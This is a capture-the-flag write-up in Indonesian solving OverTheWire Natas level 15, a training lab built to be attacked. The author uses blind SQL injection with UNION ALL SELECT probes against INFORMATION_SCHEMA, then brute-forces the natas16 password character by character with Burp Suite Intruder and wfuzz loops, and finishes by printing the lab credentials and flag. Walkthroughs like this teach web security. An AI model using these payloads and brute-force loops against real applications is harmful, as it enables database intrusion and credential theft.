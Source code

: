 ```yaml
---
layout: level
level: 15
previous: ./level 14.html
next: ./level 16.html
---
```


# soal
Username: natas15 \
URL:      http://natas15.natas.labs.overthewire.org

# solve
- login with cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
- lalu saya melihat source codenya
  ![alt text](docs/images/image-38.png)
- disini saya mencoba beberapa parameter terlebih dahulu seperti
  ```bash
  "
  '
  ```
- dan ketika saya coba dengan '"' ini dikatakan error
  ![alt text](docs/images/image-39.png)
- ini adalah penggambaran sqlnya
  ```bash
  SELECT * FROM users where username = "<input>"
  SELECT * FROM users where username = "natas16" "1" = "1"

  ## mencari jumlah user ketemu di 1,2
  ## menggunakan tanda komen di akhir agar ; di php bisa dihilangkan
  SELECT * FROM users where username = "fafa" UNION ALL SELECT 1;#;
  SELECT * FROM users where username = "fafa" UNION ALL SELECT 1, 2;#;
  SELECT * FROM users where username = "fafa" UNION ALL SELECT 1, 2, 3, 4, 5;#";
  ## 1   => not exits FALSE
  ## 1,2 => exits TRUE

  ## karena sudah ketemu bahwa terdapat 2 kolom maka kita perlu UNION keduanya dari information schema
  SELECT 1,2 FROM users where username = "fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables;#";
  ## TRUE

  SELECT 1,2 FROM users where username = "fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "a";#";
  SELECT 1,2 FROM users where username = "fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "b";#";
  ## FALSE
  SELECT 1,2 FROM users where username = "fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "g";#";

  ## kita sudah tau ada tabble yang dimulai dari huruf g
  ## dan sebenernya ini tidak terlalu akurat
  ## jadi saya mencoba tambahan agar akurat
  SELECT 1,2 FROM users where username = "fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "g" \
  AND table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema";#";
  ## FALSE

  ## dan ketika saya coba 1,1 u berhasil
  ## 2,1 s berhasil
  ```

- dan ini adalah sql yang saya coba
  ```bash
  natas16" "1" = "1
  fafa" UNION ALL SELECT 1;#
  fafa" UNION ALL SELECT 1, 2;#
  fafa" UNION ALL SELECT 1, 2, 3, 4, 5;#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables;#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "a";#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "g";#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "g" AND table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema";#
  
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE substring(table_name,1,1) = "g" AND table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema";#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema" AND substring(table_name,1,1) = "g";#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema" AND substring(table_name,1,1) = "u";#
  ## true  

  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.tables WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_schema != "performance_schema" AND substring(table_name,2,1) = "u";#
  ```

## automation with burp suite
- saya mencoba burp suite intruder untuk mmempermudah mencari nama tablenye
  ![alt text](docs/images/image-40.png)
- setelah itu saya mengatur menjadi cluster bomb attack
  ![alt text](docs/images/image-41.png)
  - payload position = 1
  - payload type     = numbers
  - from 1 to 10
  ![alt text](docs/images/image-42.png)
  - payload position = 2
  - payload type     = brute force
  - minlength=1, maxlength=2
- lalu start attack dan tunggu hingga proses selesai
  ![alt text](docs/images/image-43.png)
- jika sudah kita bisa lakukan grep dengan option ini
  ![alt text](docs/images/image-44.png)
- jangan lupa ubah urutan ininya menjadi yang atas biar user exits tampil di atas jika sudah kita berhasil mendapatkan
  ![alt text](docs/images/image-45.png)
  ```users```

- setelah kita mengetahui table users saya mencari informasi lainya
  ```bash
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.columns WHERE table_name='users' AND SUBSTRING(column_name,1,1)='a';#
  fafa" UNION ALL SELECT 1,2 FROM INFORMATION_SCHEMA.columns WHERE table_name='users' AND SUBSTRING(column_name,1,1)='p';#
  ```
- lalu saya mencoba brute force otomatis lagi pake burp suite
  ![alt text](docs/images/image-47.png)
- jangan lupa di grep lagi
- jika sudah nanti outputnya akan seperti ini
  ![alt text](docs/images/image-48.png)
- lalu saya split responseya di cyberchef
  
  ```
  puasesrsnwaomrde
  1122334455667788

  password
  username
  ```

## brute force pass with wfuzz
- setelahh kita mengetaui nama column, kita hanya perlu membruteforce passwordnya
  ```bash
  fafa" UNION ALL SELECT 1,2 FROM users WHERE username = 'natas16' AND SUBSTRING(password,1,1) = 'a';#
  ```
- lalu saya coba melakukan brute force menggunakan burp suite dan mencoba menggunakan wfuzz
  ```bash
  echo -e "a\nb\nc\nd\ne\nf\ng\nh\ni\nj\nk\nl\nm\nn\no\np\nq\nr\ns\nt\nu\nv\nw\nx\ny\nz\n0\n1\n2\n3\n4\n5\n6\n7\n8\n9\n_\n$\n@" > chars
  echo -e "a\nb\nc\nd\ne\nf\ng\nh\ni\nj\nk\nl\nm\nn\no\np\nq\nr\ns\nt\nu\nv\nw\nx\ny\nz\nA\nB\nC\nD\nE\nF\nG\nH\nI\nJ\nK\nL\nM\nN\nO\nP\nQ\nR\nS\nT\nU\nV\nW\nX\nY\nZ\n0\n1\n2\n3\n4\n5\n6\n7\n8\n9\n_\n$\n@" > chars

  wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -w chars -d 'username=fafa" UNION ALL SELECT 1,2 FROM users WHERE username = "natas16" AND SUBSTRING(password,1,1) = "FUZZ";#' natas15.natas.labs.overthewire.org/index.php | grep -v 920
  # got 1 == h

  for i in {1..33}; do echo $i; done
  # 1
  # ...

  for i in {1..33}; do wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" \
  -w chars -d "username=fafa\" UNION ALL SELECT 1,2 FROM users WHERE username = \"natas16\" AND SUBSTRING(password,$i,1) = \"FUZZ\";#" natas15.natas.labs.overthewire.org/index.php | grep -v 920  ; done
  # h
  # p
  # ...

  for i in {1..33}; do wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -w chars -d "username=fafa\" UNION ALL SELECT 1,2 FROM users WHERE username = \"natas16\" AND SUBSTRING(password,$i,1) = \"FUZZ\";#" natas15.natas.labs.overthewire.org/index.php | grep -v 920  ; done | grep 913
  # filternya ganda

  # namun terdapat masala ketika kita coba gunakan itu kemungkinann besar output hhuruf kecil dan besar akan sama begitu pula dengan length datanya kia perlu menambakan BINARY di sebelum = "a"
  # = \"FUZZ\" => = BINARY \"FUZZ\"
  for i in {1..33}; do wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -w chars -d "username=fafa\" UNION ALL SELECT 1,2 FROM users WHERE username = \"natas16\" AND SUBSTRING(password,$i,1) = BINARY \"FUZZ\";#" natas15.natas.labs.overthewire.org/index.php | grep -v 920

  for i in {1..33}; do wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -w chars -d "username=fafa\" UNION ALL SELECT 1,2 FROM users WHERE username = \"natas16\" AND SUBSTRING(password,$i,1) = BINARY \"FUZZ\";#" natas15.natas.labs.overthewire.org/index.php | grep -v 920  ; done

  for i in {1..33}; do wfuzz -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -w chars -d "username=fafa\" UNION ALL SELECT 1,2 FROM users WHERE username = \"natas16\" AND SUBSTRING(password,$i,1) = BINARY \"FUZZ\";#" natas15.natas.labs.overthewire.org/index.php | grep -v 920  ; done | grep 913

  cat > wfuzz << EOF
  ---isi dengan output tadi
  EOF 

  cat wfuzz | awk '{print $9}' | tr -d "\"" | tr -d "\n"
  # hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
  ```

## brute force with burp suite
- tambahhkan intruder seperti biasa dengan cluster bom attack typenya
  - payload 1, number, from 1 to 33
  - payload 2, bruteforce "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUFWXYZ"
  ![alt text](docs/images/image-49.png)
- setelah menunggu hasilnya seperti ini
  

## automation with wfuzz (gagal)
```
wfuzz -z file,/usr/share/wordlists/sqlmap.txt -u "http://natas15.natas.labs.overthewire.org" -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -d "username=FUZZ"
wfuzz -z file,/usr/share/wordlists/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u "http://natas15.natas.labs.overthewire.org" -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" -d "username=FUZZ"

# wfuzz
echo -e "a\nb\nc\nd\ne\nf\ng\nh\ni\nj\nk\nl\nm\nn\no\np\nq\nr\ns\nt\nu\nv\nw\nx\ny\nz\n0\n1\n2\n3\n4\n5\n6\n7\n8\n9\n_\n$\n@" > chars


# nyoba sqlmap namun tidak berhasil
sqlmap -u "http://natas15.natas.labs.overthewire.org" -H "Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" --data="username=FUZZ" --dbs
sqlmap -u "http://natas15.natas.labs.overthewire.org" --headers="Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA==" --data="username=FUZZ" --dbs --batch --flush-session -v 3
```

# flag
hPkjKYviLQctEW33QmuXL6eDVfMW4sGo